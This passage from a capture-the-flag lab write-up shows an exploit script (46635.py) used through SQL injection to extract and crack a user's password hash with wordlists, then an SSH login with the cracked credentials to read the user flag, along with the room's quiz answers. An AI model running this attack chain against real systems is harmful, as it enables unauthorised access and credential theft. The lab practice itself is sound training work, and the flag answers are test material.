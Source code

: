 we got some problem when we used `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` password list
```
╭─twseptian@twsterlab ~/lab/THM/rooms/simple-ctf 
╰─$ python2.7 46635.py -u http://10.10.152.92/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
[+] Salt for password found: 1dac0d92e9fa69EM
[+] Username found: mitch
[+] Email found: admi13qo
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
╭─twseptian@twsterlab ~/lab/THM/rooms/simple-ctf 
╰─$ 
```
so, we used `rockyou.txt`
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admi987
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
╭─twseptian@twsterlab ~/lab/THM/rooms/simple-ctf 
╰─$ 
```

ANS: `sqli`
### #5 What's the password?
ANS: `secret`
### #6 Where can you login with the details obtained?
ANS: `ssh`
### #7 What's the user flag?
```
╭─twseptian@twsterlab ~/lab/THM/rooms/simple-ctf 
╰─$ ssh -p 2222 mitch@10.10.152.92                                                                                                                                1 ↵
mitch@10.10.152.92's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Sun Jun 14 13:16:28 2020 from 10.9.19.3
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
$ cat user.txt
G00d j0b, keep up!
$ 
```
ANS: `G00d j0b, keep up!`